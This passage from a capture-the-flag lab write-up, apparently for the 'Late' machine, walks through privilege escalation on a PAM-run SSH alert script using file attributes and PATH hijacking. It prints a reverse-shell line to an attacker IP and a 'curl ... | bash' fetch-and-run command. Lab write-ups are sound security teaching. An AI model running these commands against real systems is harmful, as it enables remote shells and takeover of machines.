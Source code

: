 ```bash
svc_acc@late:/usr/local/sbin$ ls -l ssh-alert.sh 
-rwxr-xr-x 1 svc_acc svc_acc 433 Aug  3 07:50 ssh-alert.sh
```

but if we attempt to modify to the file using vim or something it rejects:

```bash
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi

bash -i >& /dev/tcp/10.10.16.8/9002 0>&1
"ssh-alert.sh"
"ssh-alert.sh" E212: Can't open file for writing
Press ENTER or type command to continue
```

In addition to file permissions, Unix systems use file attributes. These can be used to further lock down permissions. Let's list the attributes of this specific file with `lsattr` command

```bash
svc_acc@late:/usr/local/sbin$ lsattr ssh-alert.sh
----ia--------e--- ssh-alert.sh
```

The attribute **a** stands for append only , which only allows users to append to a file.

So let's do it with **curl**:

```bash
svc_acc@late:/usr/local/sbin$ echo "curl 10.10.16.8 | bash" >> ssh-alert.sh 
-bash: ssh-alert.sh: Operation not permitted
```

So it fails for some reasons. checking the content of `ssh-alert.sh` file again we found that `data` and  `uname` commands are not used with their absolute path (full path). If any command is not used with its absolute path in any bash script, then it creates PATH hijacking vulnerability which often leads to privilege escalation. [more...](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)



```bash
svc_acc@late:/usr/local/sbin$ cat ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date` ## date command without a absolute path
        Server:      `uname -a` ## uname command without a absolute path
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi

```
